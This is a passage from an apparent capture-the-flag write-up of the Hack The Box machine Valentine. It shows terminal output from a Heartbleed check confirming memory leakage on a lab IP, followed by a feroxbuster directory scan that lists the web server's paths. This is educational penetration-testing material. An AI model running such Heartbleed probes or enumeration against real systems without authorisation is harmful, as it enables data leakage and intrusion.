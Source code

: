 Right. That was a bit long. Anyway, checking it via:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/valentine]
└─# ./demo.py 10.10.10.79
Connecting...
Sending Client Hello...
Waiting for Server Hello...
Received message: type = 22, ver = 0302, length = 74
Received message: type = 22, ver = 0302, length = 885
Received message: type = 22, ver = 0302, length = 781
Received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
Received message: type = 24, ver = 0302, length = 16384
Received message: type = 24, ver = 0302, length = 16384
Received message: type = 24, ver = 0302, length = 16384
Received message: type = 24, ver = 0302, length = 16384
# etc - lots of stuff
WARNING: server returned more data than it should - server is vulnerable!
{% endhighlight %}

Okay so that's good, but there was nothing juicy in the leaked information. Time to poke around the webserver:

{% highlight shell %}
──(root💀kali)-[/opt/htb/valentine]
└─# feroxbuster -u http://10.10.10.79/ -w /usr/share/seclists/Discovery/Web-Content/common.txt                                                                               130 ⨯

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.79/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        1l        2w       38c http://10.10.10.79/index.php
403       10l       30w      283c http://10.10.10.79/.hta
200        1l        2w       38c http://10.10.10.79/index
403       10l       30w      288c http://10.10.10.79/.htpasswd
200       27l       54w      554c http://10.10.10.79/encode
301        9l       28w      308c http://10.10.10.79/dev
403       10l       30w      287c http://10.10.10.79/dev/.hta
403       10l       30w      287c http://10.10.10.79/cgi-bin/
200       25l       54w      552c http://10.10.10.79/decode
403       10l       30w      288c http://10.10.10.79/.htaccess
403       10l       30w      292c http://10.10.10.79/dev/.htpasswd
403       10l       30w      291c http://10.10.10.79/cgi-bin/.hta
403       10l       30w      292c http://10.10.10.79/server-status
200        8l       39w      227c http://10.10.10.79/dev/notes
403       10l       30w      296c http://10.10.10.79/cgi-bin/.htpasswd
403       10l       30w      292c http://10.10.10.79/dev/.htaccess